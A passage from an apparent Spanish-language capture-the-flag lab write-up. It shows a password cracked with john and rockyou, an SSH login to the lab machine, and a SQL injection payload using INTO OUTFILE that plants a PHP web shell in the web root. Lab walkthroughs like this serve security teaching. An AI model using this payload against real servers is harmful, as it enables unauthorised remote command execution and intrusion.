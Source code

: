 Ahi obtenemos el resultado con john utilizando rockyou y la clave es: videogamer124

Tenemos las credenciales agent47:videogamer124

Ahora podemos responder estas preguntas: 

![Pasted-image-20240721023320.png](./assets/Pasted-image-20240721023320.png)


ahora que ya tenemos credenciales, probemos si esas nos serviran en el ssh que tienen abierto:

```
ssh agent47@10.10.144.74
```

![Pasted-image-20240721023955.png](./assets/Pasted-image-20240721023955.png)

Las credenciales nos sirvieron. Pero, si tenemos una inyeccion sql y no tenemos ssh. Podriamos obtener una shell con esa inyeccion? 

La respuesta es si y al saber que se tiene un servidor apache y que tenemos php disponible, podemos subir un cmd y ejecutarlo desde nuestro navegador y luego transformarlo en una shell. 

Veamoslo:

```sql
'union select null,"<?php+system($_GET['cmd']);?>",null into OUTFILE "/var/www/html/webshell.php" -- -
```
